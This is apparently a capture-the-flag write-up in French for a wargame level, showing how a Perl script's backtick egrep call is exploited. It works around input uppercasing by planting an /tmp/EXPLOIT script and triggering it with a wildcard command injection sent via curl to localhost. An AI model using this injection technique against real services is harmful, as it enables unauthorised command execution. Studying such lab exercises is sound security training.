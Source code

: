 En lisant le code de `level12.pl` on retrouve la ligne suivante:

@output = `egrep "^$xx" /tmp/xd 2>&1`;


Il est possible de faire une injection sur cette commande, mais l'input $xx a ete capitalize. On peut alors faire un script `EXPLOIT` que l'on mettra dans /tmp

```sh
#!/bin/sh

getflag > /tmp/flag
```

puis on fait: 

```sh
chmod 777 /tmp/EXPLOIT
```

et finalment l'injection:

```sh
curl 'http://localhost:4646/?x=`/*/EXPLOIT`'
```

